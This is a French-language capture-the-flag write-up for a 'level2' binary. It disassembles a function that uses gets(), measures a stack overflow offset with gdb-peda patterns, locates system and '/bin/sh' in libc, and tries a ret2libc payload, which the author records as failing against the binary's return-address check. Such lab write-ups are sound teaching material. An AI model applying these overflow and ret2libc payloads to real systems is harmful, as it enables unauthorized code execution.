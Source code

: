 ## Démarches

Même réflexes que pour les levels précédents :

- Le binaire ./level2 attend quelque chose sur l'entrée standard, qu'il réimprime par la suite avant de quitter.
- `objdump -d level2` :
  - le main appelle une fonction `p` :
    ```
    804853f:	55                   	push   %ebp
    8048540:	89 e5                	mov    %esp,%ebp
    8048542:	83 e4 f0             	and    $0xfffffff0,%esp
    8048545:	e8 8a ff ff ff       	call   80484d4 <p>
    804854a:	c9                   	leave
    804854b:	c3                   	ret
    ```
  - la fonction p comporte les fonctions `fflush`, `gets`, `printf`, `exit`, `puts` et `strdup` :
    ```
    80484d4:	55                   	push   %ebp
    80484d5:	89 e5                	mov    %esp,%ebp
    80484d7:	83 ec 68             	sub    $0x68,%esp
    80484da:	a1 60 98 04 08       	mov    0x8049860,%eax
    80484df:	89 04 24             	mov    %eax,(%esp)
    80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
    80484e7:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    80484ea:	89 04 24             	mov    %eax,(%esp)
    80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
    80484f2:	8b 45 04             	mov    0x4(%ebp),%eax
    80484f5:	89 45 f4             	mov    %eax,-0xc(%ebp)
    80484f8:	8b 45 f4             	mov    -0xc(%ebp),%eax
    80484fb:	25 00 00 00 b0       	and    $0xb0000000,%eax
    8048500:	3d 00 00 00 b0       	cmp    $0xb0000000,%eax
    8048505:	75 20                	jne    8048527 <p+0x53>
    8048507:	b8 20 86 04 08       	mov    $0x8048620,%eax
    804850c:	8b 55 f4             	mov    -0xc(%ebp),%edx
    804850f:	89 54 24 04          	mov    %edx,0x4(%esp)
    8048513:	89 04 24             	mov    %eax,(%esp)
    8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
    804851b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
    8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
    8048527:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    804852a:	89 04 24             	mov    %eax,(%esp)
    804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
    8048532:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    8048535:	89 04 24             	mov    %eax,(%esp)
    8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
    804853d:	c9                   	leave
    804853e:	c3                   	ret
    ```
- Comme au level1, il est possible de faire segfault le programme avec un overflow de `gets` :
  - Avec gdb + peda, on créé un pattern de 100 caractères que l'on passe sur l'entrée standard au lancement du programme :
    `pattern create 100`
    > 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

    `r < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")'`

  - On recherche le pattern :
    `pattern search`
    > EBP+0 found at offset: 76

  - On peut vérifier que le buffer ne peut accepter que 76 caractères : 
    `r < <(python -c 'print(76*"A"+"1234")')`
    > EBP: 0x34333231 ('1234')

- En lançant le programme dans gdb, on peut déterminer quelles fonctions nous intéressent :
  - on place un breakpoint au début de la fonction p : `br p` puis on lance le programme avec `run`
  - avec `n` on déroule le programme étape par étape jusqu'à l'appel de gets
  - on écrit quelque chose sur l'entrée standard : `test1`
  - on saute jusqu'à l'exécution du puts : `jump *0x804852d`
    > test1

    Le puts renvoie la chaine passée lors de l'appel du gets, puis le programme s'arrête.
    **C'est donc le `printf` qui nous intéresse.**

-  On peut observer avant l'appel du printf une comparaison entre l'entrée standard
    > 8048500:	3d 00 00 00 b0       	cmp    $0xb0000000,%eax


- Dans gdb :
   - `gdb-peda$ p system`
     > $1 = {<text variable, no debug info>} 0xb7e6b060 <system>
  - `gdb-peda$ searchmem /bin/sh`
    ```
      Searching for '/bin/sh' in: None ranges
      Found 1 results, display max 1 items:
      libc : 0xb7f8cc58 ("/bin/sh")
    ```
  - `(python -c "print('A'*76+'\x60\xb0\xe6\xb7'+'....'+'\x58\xcc\xf8\xb7')" ; cat) | ./level2`
    NOPE....

<br>

----
## Ressources